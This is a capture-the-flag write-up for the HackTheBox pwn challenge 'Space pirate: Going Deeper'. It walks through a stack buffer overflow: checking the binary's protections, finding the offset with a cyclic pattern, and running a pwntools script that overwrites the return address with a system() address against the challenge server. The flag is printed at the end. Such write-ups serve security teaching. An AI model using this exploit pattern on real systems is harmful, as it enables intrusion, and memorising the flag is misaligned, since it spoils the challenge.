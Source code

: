 # Space pirate: Going Deeper
> Write-up author: jon-brandy
## DESCRIPTION:
We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. 
The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. 
Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. 
Can you disable the mechanisms and take control of the Admin Panel?

## HINT:
- NONE
## STEPS:
1. First, unzipt the `.zip` file given, then jump to the extracted directory.

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/209360739-725aaa02-8f61-4120-8fe3-a89e10e29d4f.png)


2. Check the `sp` file type.

![image](https://user-images.githubusercontent.com/70703371/209360801-f1ee46de-d6b9-441f-8716-d216f4f64f87.png)


3. It's a 64 bit binary file, dynamically linked, and not stripped.
4. Since it's not stripped, it's easier for us to debug the binary when decompiled.
5. Now, let's check the binary's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209361035-8d8bd5e7-d939-4437-b3cd-6a96cdd17b8c.png)


6. **No canary found** and **no PIE**.
7. Anyway let's run the binary in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209473239-d41f9b73-858d-4dd0-9223-5986a21548f4.png)


8. If we pressed 1, we prompted an input, let's paste 1024 cyclic pattern here.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209473266-0c10cff2-bbd9-48c5-a3ac-68f72b55c73f.png)


9. Great! The program crashed.
10. Now utilize the 4 RBP characters from behind to find the correct bytes to overflow the buffer.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209473284-21caf80f-6b5e-43bb-a01d-a7a47c830810.png)


11. Notice here, since we don't have the RSP offset, so let's use the pattern buffer found -1. -> 56 padding bytes.

![image](https://user-images.githubusercontent.com/70703371/209473313-4a1164a2-86a0-4472-810b-d4e975dcab00.png)


12. Anyway let's decompile the file and open the `main()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209363588-d2254810-2ab9-4416-b90f-70456ee2c0e1.png)

13. From the 3 functions, the `admin_panel()` function caught my attention.

> ADMIN_PANEL

![image](https://user-images.githubusercontent.com/70703371/209363750-d34aaf84-613b-4005-9ce2-1594255bcf83.png)


14. Based from the source code, the read function reads 57 bytes and the program comparing the admin username with the newline after it not a NULL character.
15. By the way, actually we can get the `system()` address and add that as the return address.
16. Here is the full script.

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('144.126.232.222',30851)
p = b'A' * 56
p += p64(4197138) #0x400b12 # system address
sh.sendlineafter(b'>>', b'1')
sh.sendlineafter(b':', p)

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209473377-a05186c4-8306-45a1-b6c5-3c2fbc0785dc.png)


17. Got the flag!

## FLAG

```
HTB{d1g_1n51d3..u_Cry_cry_cry}
```
